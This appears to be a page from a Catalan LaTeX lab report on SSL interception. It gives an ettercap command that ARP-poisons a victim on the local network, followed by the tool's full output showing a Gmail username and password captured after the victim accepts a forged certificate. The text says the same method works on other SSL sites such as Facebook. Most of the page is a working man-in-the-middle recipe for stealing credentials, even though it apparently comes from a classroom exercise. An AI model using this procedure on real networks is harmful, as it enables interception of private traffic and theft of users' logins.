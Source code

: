 \documentclass[a4paper,11pt]{scrartcl}
\begin{document}
\begin{verbatim}
ettercap -Tq -i eth0 -M arp:remote,oneway /192.168.1.63/ //
\end{verbatim}

Ara senzillament toca esperar que la víctima intenti loguejar i accepti el nostre
certificat fals. En aquest instant la connexió estarà xifrada amb el nostre certificat
i per tant podem desxifrar el missatge enviat. Tot això ho fa el \texttt{ettercap} per nosaltres.

\begin{verbatim}
ettercap NG-0.7.3 copyright 2001-2004 ALoR & NaGA

Listening on eth0... (Ethernet)

  eth0 ->       00:0A:E4:33:D4:58     192.168.1.40     255.255.255.0

Privileges dropped to UID 0 GID 0...

  28 plugins
  39 protocol dissectors
  53 ports monitored
7587 mac vendor fingerprint
1698 tcp OS fingerprint
2183 known services

Randomizing 255 hosts for scanning...
Scanning the whole netmask for 255 hosts...
* |==================================================>| 100.00 %

1 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 192.168.1.63 00:23:18:B1:D2:92

 GROUP 2 : ANY (all the hosts in the list)
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help

HTTP : 209.85.227.104:443 -> USER: practicaopenssl  PASS: h4x0r_pass  
INFO: https://www.google.com/accounts/ServiceLogin?service=mail&passive=true&rm=
false&continue=https://mail.google.com/mail/?ui=html&zy=l&bsv=llya694le36z&
\end{verbatim}

Com podem veure la víctima ha intentat loguejar al seu correu de Gmail. L'usuari és \texttt{practicaopenssl}
i la contrasenya \texttt{h4x0r\_pass}. Això significa que ha rebut l'advertiment de que el certificat no
era l'autèntic de la pàgina i segurament per resignació, desconeixement i ganes d'entrar al seu
correu ha ignorat l'advertiment acceptant el nou certificat fraudulent.
Aquest procediment funciona per totes les webs amb \emph{SSL} que s'han provat, entre elles el Facebook, Lastfm...
\end{document}
